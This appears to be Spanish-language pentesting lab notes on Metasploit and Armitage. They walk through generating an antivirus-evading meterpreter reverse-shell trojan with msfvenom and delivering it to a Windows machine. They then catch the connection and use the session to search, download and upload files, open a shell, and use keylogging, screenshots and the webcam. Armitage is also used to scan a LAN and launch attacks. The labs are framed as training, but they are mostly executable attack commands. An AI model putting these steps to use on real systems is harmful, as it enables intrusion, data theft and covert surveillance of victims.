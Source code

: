 ## LABORATORIO 1 (INTERACCION BASICA)

1. Podemos ver la carpeta con los archivos de Metasploit Framework  
**_cd /usr/share/metasploit-framework/_**

2. Ahora ejecutamos la consola de Metasploit: **_msfconsole_**
3. Ahora podemos buscar de la siguiente forma: **_search Type: exploit_**
4. Podemos aplicar filtros ejemplo: **_search Type: exploit platform:windows_**
5. Buscar vulnerabilidades comunes: **_search cve:2017_**
6. Quiero atacar un sistema especifico: **_search name:wordpress_**
7. Si queremos usarlo: use &lt;ruta/nombre&gt;  
(**_use exploit/unix/webapp/wp_total_cache_exec_**)
8. Dentro podemos ver los objetivos: **_show targets_**
9. Podemos ver más información: **_show info_**
10. Podemos ver las opciones: **_show Options_**
11. Modificar su opción de IP REMOTE HOST: set RHOST &lt;IP OBJETIVO&gt;
12. Volvemos a ver las opciones con **show Options** y veremos la IP configurada
13. Ahora veremos los Payloads útiles relacionados a este exploit: **_show payloads_**
14. Y podemos usar el payload de igual forma que antes con **_use &lt;name/ruta&gt;_**
15. Dentro podemos ver las opciones del Payload con **_show options_**
16. Y podemos establecer nuestra configuración del LOCAL HOST:  
**_set LHOST &lt;IP MAQUINA ATACANTE&gt;_**
17. Y después de realizar todas las configuraciones de las opciones simplemente ejecutamos: **_exploit_**

Esto no hará nada en específico ya que faltarían más opciones para poder ver un resultado ya que esto solo es una explicación de cómo utilizar Metasploit framework en una prueba de ejemplo.


## LABORATORIO 2 (CREACION DE TROYANO E INFILTRACION A OBJETIVO)

1. En la terminal de Kali levantaremos el servicio PostgreSQL:  
**_service postgresql start_**
2. Y abrimos la consola Metasploit: **_msfconsole_**
3. Ejecutamos: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=&lt;IP KALI&gt; LPORT=&lt;5555&gt; -f exe -e x86/shikata_ga_nai -i 10 > trojan.exe** (Mas adelante explicare cada configuración)
4. Creado el archivo deberíamos tenerlo en /Home por lo que copiaremos y meteremos a la carpeta creada (winmount) en la práctica pasada conectada a la maquina windows para enviar el troyano a la maquina víctima.
5. Ahora en la consola de Metasploit ejecutar: **_use multi/handler_**
6. Luego **_set payload windows/meterpreter/reverse_tcp_**
7. Establecemos el host local: **_set LHOST &lt;IP MAQUINA KALI&gt;_**
8. Y el Puerto: **_set LPORT 5555_**
9. Y ejecutamos: **_exploit_**
10. Regresamos a la maquina windows y volvemos a ejecutar el troyano
11. Abierto el nuevo menú de meterpreter al establecer conexión con la maquina victima vemos la ayuda con el comando **_help_**
12. Si queremos ver información del equipo ejecutamos: **_sysinfo_**
13. Si queremos ver el directorio en el que estamos en la maquina windows a través de Kali: _ls_
14. Para ver configuraciones de red: **_ipconfig_**
15. Queremos buscar los archivos (.doc) en la maquina: **_search -f \*.doc_**
16. Igual se puede con cualquier otro archivo, como ejemplo (.txt)
17. Y si queremos descargarlo: download &lt;dirección del documento&gt; (Recuerda cambiar las barras a (/))
18. Y de igual forma podemos subir un archivo**_: upload &lt;dirección origen kali&gt; &lt;dirección destino windows&gt;_** (Utilizando (\\) en esta última)
19. Usar la consola de windows: **_Shell_**

EXTRA

- El comando **msfvenom** es el comando principal de Metasploit Framework que se utiliza para generar payloads personalizados.
- **(-p windows/meterpreter/reverse_tcp**) Especifica el payload que se utilizara, en este caso es un payload para windows que establece una conexión de Shell inversa usando el módulo Meterpreter de Metasploit Framework.
- **LHOST=&lt;IP KALI&gt;** Especifica la dirección IP del host atacante, es decir, la dirección IP de Kali Linux, donde se enviarán las conexiones de retorno del sistema objetivo.
- **LPORT=&lt;5555&gt;** Esta opción especifica el puerto en el que escuchará el sistema Kali Linux para las conexiones de retorno del sistema objetivo. Aquí, estamos utilizando el puerto 5555, pero puedes cambiarlo según tus necesidades.
- **(-f exe)** Esta opción especifica el formato de salida del payload generado. En este caso, estamos generando un archivo ejecutable de Windows (.exe).
- **(-e x86/shikata_ga_nai)** Esta opción especifica el encoder que se utilizará para codificar el payload y evadir la detección de antivirus. En este caso, estamos utilizando el encoder x86/shikata_ga_nai, que es un encoder polimórfico disponible en Metasploit Framework.
- **(-i 10)** Esta opción especifica el número de iteraciones que se utilizarán para codificar el payload. Cuantas más iteraciones, más difícil será para los antivirus detectar el payload. Aquí, estamos utilizando 10 iteraciones.
- **(> trojan.exe)** Esta parte del comando redirige la salida del payload generado al archivo trojan.exe, que es el nombre del archivo que se generará y que contendrá el payload.
- **use multi/handler:** Este comando indica a Metasploit que se utilizará el módulo multi/handler, el cual es responsable de escuchar las conexiones entrantes de varios tipos de payloads. Seleccionar este módulo prepara Metasploit para recibir la conexión que será establecida por el payload que generamos previamente con msfvenom.
- **set payload windows/meterpreter/reverse_tcp**: Este comando configura el tipo de payload que se espera recibir en el handler. En este caso, estamos configurando el payload para Windows que establece una conexión de Shell inversa usando el módulo Meterpreter de Metasploit Framework y el método reverse_tcp.


## LABORATORIO 3 (INTERACCION CON LA HERRAMIENTA ARMITAGE)

1. Levantar el servicio postgresql en la terminal
2. Ejecutamos Armitage: **_armitage_**
3. Damos clic en **Connect** y **Yes**
4. Se mostrará la interfaz GUI con 3 Paneles
5. Nos vamos a la opción **Armitage>Preferences**
6. Buscamos la opción con nombre **require_exploit_rank** y el valor lo cambiamos a **poor**
7. Ahora comenzaremos escaneando los hosts en **Hosts>Nmap Scan>Quick Scan (OS detect)**
8. Ingresamos el rango de la LAN en mi caso es (192.168.0.0/24) y se nos mostraran las maquinas en la red
9. Podemos seleccionar la maquina objetivo y con clic derecho ver los servicios
10. También seleccionándola y en las opciones superiores **Attacks>Find Attacks**
11. Ahora con clic derecho a la maquina objetivo tendremos la opción **Attack** con una variedad de ataques para la máquina.
12. Ahora crearemos un payload en el panel izquierdo **payload>windows>meterpreter>reverse_tcp**
13. Abierto el menú yo elegiré el **LPORT 9090**
14. En **Output** elegiremos **exe** y finalmente **Launch**
15. Y guardaremos el documento en el escritorio con el nombre **Virus101.exe**
16. En nuestro caso lo volvemos a mandar por la carpeta compartida entre las 2 máquinas de la practica 5.8
17. De nuevo en Armitage abrimos el documento de antes (reverse_tcp), elegimos el puerto 9090, Output multi/handler y Launch
18. Ahora ejecutamos el virus en la maquina windows
19. Y ahora el Logo de la maquina windows habrá cambiado al igual de la nueva consola
![IMAGEN DEL LOGO DE EJEMPLO](../assets/image53.png)
20. Y tendremos una nueva opción llamada **Meterpreter 1** al dar clic derecho en la maquina
21. De los cuales podremos usar para Explorar Archivos en la máquina, abrir su Shell de comandos, tomar capturas de pantalla, abrir su webcam, o podemos observar las pulsaciones de tecla(Esta última va a tardar un poco en iniciar)
